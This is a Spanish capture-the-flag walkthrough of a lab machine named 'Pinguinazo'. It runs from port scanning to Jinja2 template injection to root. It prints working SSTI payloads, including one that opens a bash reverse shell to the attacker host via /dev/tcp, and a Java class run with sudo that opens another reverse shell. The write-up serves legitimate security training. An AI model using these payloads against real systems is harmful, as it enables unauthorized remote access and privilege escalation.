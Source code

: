 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  24/06/2024
---
```


# Pinguinazo

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, se identificó que el puerto 5000/tcp está abierto y asociado al servicio `upnp`. El estado del puerto es `open` y la razón es `syn-ack`.

### 🔎 **EXPLORACIÓN**

Para saber más información sobre el puerto abierto, se realiza el siguiente comando:

```bash
nmap -sCV -p5000 172.17.0.2 -oN targeted
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Parece que estamos tratando con un servidor que utiliza **Werkzeug** con **Flask**. Vamos a realizar una inspección manual de este sitio web.

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado un directorio llamado `console`, que en este tipo de servidores podría permitir la ejecución remota de código (RCE). Sin embargo, está protegido por un PIN, así que continuaremos con la enumeración.

Parece que el fuzzeo hasta ahora no ha proporcionado más resultados. Vamos a experimentar con el formulario que encontramos al principio. Observamos que hay una reflexión en el campo del nombre, por lo que probaremos si interpreta el código HTML.&#x20;

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que el formulario interpreta etiquetas HTML. Ahora, vamos a probar si es vulnerable a un ataque de SSTI (Server-Side Template Injection) utilizando el payload `{{7+7}}`. Si la operación se ejecuta correctamente, esto indicará que es posible inyectar y ejecutar comandos a través de estas plantillas.

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>

Como se ha realizado correctamente inyectaremos una reverse shell y así poder obtener el acceso al sistema.

Después de investigar varios payloads para **Jinja2**, encontramos uno que permite ejecutar un comando para enviar una shell a nuestra máquina atacante. Utilizamos **HackTricks** y el repositorio de **PayloadAllTheThings** para esta investigación. Enviaremos un **payload** para ver el ID de usuario.

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>

Con esta información, intentaremos establecer una **shell** utilizando este método. Ejecutaremos el siguiente comando, que hemos adaptado para incluir nuestra propia shell, tal como se detalla en la página mencionada.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}
```

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

En **GTFOBins** no encontramos información relevante para nuestro caso, pero hemos encontrado información útil en la siguiente página:

[RevShells](https://www.revshells.com/)

Esta página proporciona una variedad de técnicas y ejemplos para obtener shells reversas en diferentes entornos, lo cual puede ser crucial para nuestra investigación y para implementar un método adecuado para el objetivo.

```bash
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Nos ponemos en escucha con **netcat**, esta vez por el puerto **4444** y ejecutamos como sudo el fichero java que hemos creado.

```bash
nc -lvnp 4444
```

Conseguimos ser **root**.
